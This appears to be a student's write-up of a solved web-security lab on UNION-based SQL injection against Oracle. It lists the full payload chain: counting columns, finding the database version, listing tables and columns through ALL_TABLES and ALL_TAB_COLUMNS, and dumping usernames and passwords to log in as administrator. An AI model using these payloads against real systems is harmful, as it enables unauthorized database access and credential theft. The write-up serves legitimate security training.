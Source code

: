 # Lab 10 - SQL injection attack, listing the database contents on Oracle

**Status**: Solved on August 2, 2023

**Objective**: Obtain the username and password of all users, and the log in as the `administrator` user.

## Solving Process

- Before trying the lab, some research was made to find the columns that can be access through `ALL_TABLES` and `ALL_TAB_COLUMNS` in an Oracle db. The info is listed below, under *"Important Notes"*.
- The number of columns was found to be 2, by using this payload: `' ORDER BY 2 --`.
- Both columns accept strings, which was confirmed with this payload: `' UNION SELECT 'a','a' FROM dual --` . `dual` was used because Oracle forces us to use the `FROM` directive together with `SELECT`.
- The database was confirmed as using Oracle, by inserting the following: `' UNION SELECT banner,NULL FROM v$version --`
  - `Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production` is the version used
- The table names in the database were outputted by querying the `ALL_TABLES` data dictionary, as follows: ' `UNION SELECT table_name,NULL FROM ALL_TABLES --`. The table that may hold users’ information is the following:
  - `USERS_NAYTNP`
- `USERS_NAYTNP` columns were obtained through this payload: `' UNION SELECT column_name,NULL FROM ALL_TAB_COLUMNS WHERE table_name = 'USERS_NAYTNP' --`, which happen to be the following:
  - `USERNAME_TYRVVU`
  - `PASSWORD_QVTNOC`
- The users’ names & passwords were queried by: `' UNION SELECT USERNAME_TYRVVU,PASSWORD_QVTNOC FROM USERS_NAYTNP --`. And the admin credentials were successfully gathered:
  - Username: `administrator`. Password: `rfu8swgngo9lq0r0lo72`
- I was able to log in with those credentials, as `administrator`.

### Important Notes

- This lab uses an ORACLE database. The database information is accessed through the `ALL_TABLES`, which has the following important columns:
  - `OWNER`
  - `TABLE_NAME`
  - Full list of columns in ALL_TABLES [here](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286).
- To get the columns’ information about a particular table, the `ALL_TAB_COLUMNS` data dictionary is used. Find [here](https://docs.oracle.com/en/database/oracle/oracle-database/21/drdag/all_tab_columns-drda-gateway.html#GUID-DE3EF8EE-2E39-4384-95D0-0A51402B4B0C) the complete reference of available column fields. The most relevant are:
  - `COLUMN_NAME`
  - `DATA_TYPE`
  - `DATA_LENGTH`
  - `COLUMN_ID`
